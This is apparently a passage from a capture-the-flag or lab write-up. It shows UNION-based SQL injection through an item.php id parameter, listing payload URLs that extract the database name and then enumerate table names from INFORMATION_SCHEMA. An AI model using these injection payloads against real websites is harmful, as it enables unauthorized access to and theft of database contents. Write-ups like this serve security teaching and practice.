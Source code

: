 **Get database name using database() function**\
\- /item.php?id=100 UNION SELECT NULL, NULL, NULL, DATABASE(), NULL - Shows up at x package = park package

**Get tables from park database**\
The SQL command we are looking to perform is:

```
SELECT TABLE_NAME
  FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_SCHEMA = 'my_database';
```

This gives us the following URL to try:\
\- /item.php?id=100 UNION select NULL, NULL, NULL, table\_name, NULL FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = "park"

![](<../.gitbook/assets/sqli user table (1).PNG>)
